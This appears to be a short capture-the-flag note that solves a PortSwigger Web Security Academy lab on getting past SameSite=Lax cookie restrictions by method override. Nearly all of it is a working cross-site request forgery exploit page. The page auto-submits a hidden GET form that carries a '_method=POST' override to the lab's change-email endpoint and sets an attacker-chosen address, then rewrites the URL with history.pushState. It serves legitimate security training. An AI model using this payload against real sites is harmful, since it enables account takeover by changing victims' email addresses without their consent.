 #ctf

https://portswigger.net/web-security/csrf/bypassing-samesite-restrictions/lab-samesite-lax-bypass-via-method-override

```html
<html>

<body>

<script>history.pushState(", ",'/')</script>

<form method="GET" action="https://0afd00bc0432b09780be17b1007f00f2.web-security-academy.net/my-account/change-email">
<input type="hidden" value="POST" name="_method">
<input type="hidden" value="pwned1@email.com" name="email">
<input type="submit" value="submit request">
</form>

<script>document.forms[0].submit();</script>

</body>

</html>
```

GG